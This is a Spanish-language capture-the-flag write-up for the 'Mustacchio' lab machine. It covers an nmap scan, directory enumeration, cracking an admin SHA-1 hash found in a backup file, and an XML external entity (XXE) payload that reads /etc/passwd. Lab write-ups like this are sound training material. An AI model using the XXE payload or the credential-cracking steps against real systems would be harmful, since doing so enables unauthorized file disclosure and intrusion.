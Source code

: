 ### nmap 
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:34 EST
Nmap scan report for 10.10.163.196
Host is up (0.23s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.04 seconds
```
tenemos un archivo robots.txt
### Ports: 22/ssh - 80/http - 8765/http 

### Enumeracion del puerto 80
![[Pasted image 20231211214708.png]]
### parece que no hay mucha cosa interesante veamos el archivo robots.txt
![[Pasted image 20231211215451.png]]
parece que el archivo esta vacio
###  gobuster
![[Pasted image 20231211215631.png]]
gobuster nos certifica que existe el archivo robots.txt aparte de esto de todos los subdirectorios el mas llamativo es custom
### subdirectorio custom/js
![[Pasted image 20231211215353.png]]
### el archivo users.bak lo podemos descargar 
![[Pasted image 20231211220112.png]]
parece que tenemos un usuario admin con un hash asi que vamos a decodearlo

### usamos hashid para identificar el hash
![[Pasted image 20231211220355.png]]
buscamos un decoder de hash SHA-1
### tenemos un usuario y ahora una pass
![[Pasted image 20231211220902.png]]
### iniciamos session cn el panel de login
![[Pasted image 20231211222507.png]]
### parece que el panel de comandos no es vulnerable a reverse shell ni inyeccion sql
### miramos el codigo fuente
![[Pasted image 20231211222616.png]]
### parece que aqui nos dejan una pista asi que vamos a mirar este subdirectorio
### se nos descarga un archivo automaticamente y lo abrimos con strings 
parece que tenemos un archivo xml
![[Pasted image 20231211222919.png]]
### xml inyection 
usaremos esta xml inyeccion para intentar mirar el etc/passwd
```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

![[Pasted image 20231212001031.png]]
